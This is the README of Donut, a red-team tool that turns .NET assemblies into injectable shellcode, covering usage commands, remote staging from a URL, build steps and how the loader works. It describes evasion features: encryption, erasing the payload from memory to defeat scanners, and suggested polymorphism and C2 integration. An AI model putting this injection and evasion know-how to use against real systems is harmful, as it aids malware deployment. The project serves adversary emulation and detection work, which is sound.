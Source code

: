 # Using Donut

![Alt text](https://github.com/TheWover/donut/blob/master/img/donut.PNG?raw=true "General Usage")                                                                                                               
 
Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the Chaskey block cipher and a 128-bit randomly generated key. After the Assembly is loaded through the CLR, the original reference is erased from memory to deter memory scanners. The Assembly is loaded into a new Application Domain to allow for running Assemblies in disposable AppDomains.

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

  usage: donut [options] -f <.NET assembly> | -u <URL hosting donut module>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.

 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided in *.dll* and *.lib* format to be used as a library. It has a simple API that is described in *api.html*. Several exported functions are provided, including ``` int CreatePayload(PDONUT_CONFIG c) ```. They all use the PDONUT_CONFIG struct as input.

## As a Template

Part of why donut was published was to provide a template for custom shellcode generators. Since all of the logic for the shellcode is defined in *payload.c*, that logic can be customized by simply changing the *payload* source code. Once the source code is changed, use the provided makefile to rebuild *payload.exe* using any of the following options

```
make x86
make x64
make debug
make clean
```

Once the new version of *payload.exe* is built, its executable code must be extracted. This can be done with *xbin.exe*. To extract the code, run the command below:

```
xbin.exe payload.exe .text
```

This will create payload.exeXX.bin where "XX" is either 32 or 64 depending on the build environment. This should be converted to a C array and placed in payload_x86.h with the label PAYLOAD_X86 or payload_x64.h with the label PAYLOAD_X64. This stub represents the shellcode component loads the .NET Assembly. When *donut* is used, it will combine this .bin file with the Assembly to produce the usable shellcode.

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted. Once the CLR is loaded into the host process, an AppDomain is prepared. A new AppDomain will be created. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *xbin.exe* extracts the compiled machine code from *.text* in *payload.exe* and saves it to *payload.bin*. *donut.exe* uses that extracted shellcode, and combines it with a Donut Instance ( a struct wrapper for the Assembly) and a Donut Module (a struct containing the config for the shellcode). The Instance and Module are referred to using offsets rather than stored on the stack. This ensures that the shellcode may be used with any injection technique without setting up the stack manually or using an API call in the CreateThread family.

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* lib/donut.dll, lib/donut.lib: Donut as a library for use in other projects on Windows
* lib/donut.so, lib/donut.a: Donut as a library for use in other projects on Linux
* payload/payload.c: The source code for the shellcode
* payload/payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* payload/xbin.cpp: Source code for xbin
* payload/xbin.exe: Extracts the useful machine code from payload.exe so that it may be used as shellcode
* encrypt.c: Provides the source code the encryption
* DemoCreateProcess/Class1.cs: An example .NET Assembly. It starts two processes.

# Subprojects

There are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detects CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.

# Project plan

Current goal: Beat the other team to publication! ;-)

* ~~Add the option to load the .NET Assembly into a new Application Domain rather than DefaultDomain~~
* ~~After the Assembly is loaded into the AppDomain (but before it is run), randomize the bytes for the decrypted Assembly and free them. This is to prevent memory scanners from picking up the presence of a DLL in the incorrect part of memory.~~
* Create a donut Python C extension that allows users to write Python programs that can use the donut API programmatically. It would be written in C, but exposed as a Python module.
* Create a donut.py generator that uses the same command-line parameters as donut.exe
* ~~Clean up the code. Remove code that is not used. Ensure code is internally documented.~~
* Add a section to the Readme on building from source (TheWover)
* At the time of release, create a Tag for the release that has a ZIP with the compiled code and another with the source for easy distribution. Label it v1.0 (TheWover)
* Add a tool/script to convert the bin file from xbin to a C array to insert it into payload_86.h and payload_64.h (Odzhan)
* Write documentation with enough detail for users to use donut as a library/API, and for them to use it as operators trying to quickly generate shellcode for one-time use. (this is mostly already done) (Odzhan)
* Odzhan write a blog post on the technical implementation of donut and its API. TheWover write a blog post on how to use this as an operator, how it affects red team tradecraft, and potential detection mechanisms for the technique.
